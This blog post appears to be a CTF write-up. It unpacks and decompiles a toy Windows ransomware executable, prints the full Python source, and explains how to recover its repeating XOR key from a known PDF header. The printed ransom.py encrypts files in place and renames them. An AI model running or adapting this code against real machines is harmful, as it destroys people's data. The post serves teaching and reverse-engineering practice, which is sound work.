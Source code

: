 ```yaml
---
layout: post
author: eyJhb
title:  "Hack IT 2018 - Challenge 2 - Gibemoni"
date:   2018-11-17 18:00:00 +0000
categories: ctf hackit2018
---
```

In a previous post found ([Hack IT 2018 - Challenge 2 - Crymore]({% post_url 2018-11-17-hackit-2018-challenge-2-linux %})), 
I explained how break the Crymore ransomware. 
This post will instead focus on its Windows version valled `Givemoni`, which uses a completely
different tactic of encrypting the users data.

The challenge contained the following two files:

- gibemoni.exe (binary file used to encrypt files)
- flag.pdf.important.GibeMoni (our encrypted flag - a pdf file)

First thing I always do when I get a binary, is to just run strings on it, `strings gibemoni.exe`.
Doing this, reveals a lot of strings containing the keyword `.pycPK`, which quickly
lead me to believe that this was some Python code converted to a `.exe` file.
Running a quick `strings gibemoni.exe | grep -i python` reveals many strings, containing the keyword Python.

```
,C:\Python34\lib\encodings\iso2022_jp_2004.pyr
)C:\Python34\lib\encodings\iso2022_jp_3.pyr
 C:\Python34\lib\sre_constants.pyr
C:\Python34\lib\http\client.py
"C:\Python34\lib\encodings\cp855.py
C:\Python34\lib\socket.py
+C:\Python34\lib\encodings\iso2022_jp_ext.pyr
C:\Users\martin\34\python\PCbuild\_lzma.pdb
```

From this we now know, that we are dealing with Python code converted to a `.exe file`,
and it was properly done using `py2exe`, which is the most popular tool for this task.
Besides this it can also be noted, that the version used for this is Python 3.4.

Now we need to extract the sourcecode for Gibemoni, which can be done using `unpy2exe` and `uncompyle6`
which both can be found in the official pip repository.

I ended up creating a Dockerfile, so that I could specify the version of Python I wanted to use.
I experienced that I needed Python version 3.4 for `unpy2exe` to work correctly, and then switch to 
Python 3.7 after to run `uncompyle6`.

`Dockerfile`
```
FROM python:3.4-alpine3.7

RUN pip install uncompyle6 unpy2exe
```

Running this, allows us to first extract the `.pyc` file, and then decompile that to readable Python code.

```
# build docker image from Dockerfile
docker build -t gib .
# run our docker image, with the currect directory mounted at /src
docker run --rm -it $(pwd):/src gib sh
cd /src
unpy2exe gibemoni.exe
# remember to change FROM in the Dockerfile to `FROM python:3.7-alpine3.7` and rebuild
uncompyle6 ransom.py.pyc > ransom.py
```

This should result in the following code 

`ransom.py`
```
# uncompyle6 version 3.2.4
# Python bytecode 3.4 (3310)
# Decompiled from: Python 3.7.1 (default, Nov 16 2018, 06:33:02) 
# [GCC 6.4.0]
# Embedded file name: ransom.py
# Compiled at: 2018-11-21 21:37:34
# Size of source mod 2**32: 212 bytes
import os

def find_important_files(startpath):
    for dirpath, dirs, files in os.walk(startpath):
        for f in files:
            abspath = os.path.abspath(os.path.join(dirpath, f))
            if abspath.split('.')[-1] == 'important':
                yield abspath
                continue


def encrypt_file(filename, key):
    i = 0
    with open(filename, 'r+b') as (f):
        plaintext = f.read(1)
        while plaintext:
            ciphertext = ord(plaintext) ^ key[i % 32]
            f.seek(-1, 1)
            f.write(bytes([ciphertext]))
            plaintext = f.read(1)
            i += 1


if __name__ == '__main__':
    print('Starting up...')
    print('HueHueHueHueHueHueHueHue')
    key = os.urandom(32)
    for f in find_important_files('/Users/'):
        encrypt_file(f, key)
        if os.path.exists(f + '.GibeMoni'):
            os.remove(f + '.GibeMoni')
        os.rename(f, f + '.GibeMoni')
        print('Encrypted: ' + f)
```

Keep in mind, I have cut off the last part which printed out the banner.
But now we can see what happens, when the ransomware encrypts the files.

On first glance in the `__main__`, we see that is generates a random 32 byte key,
that is uses for encryption.
Looking at the `encrypt_file` function, we can see that it accepts a `filename` and a `key`.
The key is basically used to XOR the plaintext with.
This means that we need to find some what, of recreating the key, that was used to encrypt our flag.

As we know that the flag was a `.pdf` file, we know the first 5 bytes of the file, that all pdfs starts with `%PDF-1.`.
This means that we can find the first 5 bytes of the key, which will then allow us to find other patterns in the pdf,
as it reuses the key throughout the file.
This in turns, allows us to guess patterns until we have the full key used to XOR our flag.


